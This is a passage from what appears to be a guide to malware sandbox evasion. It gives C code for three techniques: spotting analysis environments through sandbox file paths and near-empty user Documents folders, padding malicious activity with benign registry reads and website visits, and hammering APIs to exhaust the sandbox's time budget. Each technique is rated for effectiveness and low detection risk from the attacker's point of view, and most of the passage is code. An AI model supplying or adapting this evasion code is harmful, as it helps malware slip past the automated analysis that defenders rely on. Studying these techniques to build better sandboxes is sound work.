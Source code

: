 **C. Filesystem Artifact Detection**
```c
// Check for sandbox-specific files
if(GetFileAttributes("C:\\analysis\\malware.exe") != INVALID_FILE_ATTRIBUTES ||
   GetFileAttributes("C:\\sandbox\\sample.exe") != INVALID_FILE_ATTRIBUTES) {
    ExitProcess(0); // Sandbox detected
}

// Check for recent user activity (real systems have documents/downloads)
WIN32_FIND_DATA findData;
HANDLE hFind = FindFirstFile("C:\\Users\\*\\Documents\\*", &findData);
int fileCount = 0;
while(FindNextFile(hFind, &findData)) {
    fileCount++;
}
if(fileCount < 10) { // Fresh system with minimal files
    ExitProcess(0);
}
```
**Effectiveness:** Medium-High
**Detection Risk:** Low

---

#### Category 4: Behavioral Evasion
**Sandbox Detection Method:** Monitors for suspicious API sequences and behaviors

**Evasion Techniques:**

**A. Benign Activity Simulation**
```c
// Perform benign operations before malicious activity
// Opens legitimate files, makes benign registry reads, etc.
for(int i = 0; i < 50; i++) {
    HKEY hKey;
    RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion",
                 0, KEY_READ, &hKey);
    RegCloseKey(hKey);
    Sleep(100);
}

// Browse benign websites
InternetOpenUrl(hInternet, "https://www.microsoft.com", NULL, 0, 0, 0);
Sleep(2000);
InternetOpenUrl(hInternet, "https://www.cnn.com", NULL, 0, 0, 0);
```
**Effectiveness:** Medium (blends malicious activity with benign noise)
**Detection Risk:** Low

**B. API Hammering (Time Consumption)**
```c
// Perform millions of benign API calls to exhaust sandbox time
for(int i = 0; i < 10000000; i++) {
    GetTickCount();
    GetSystemMetrics(SM_CXSCREEN);
}
```
**Effectiveness:** High (consumes analysis time budget)
**Detection Risk:** Low
**Note:** Modern sandboxes may detect and skip excessive API loops

---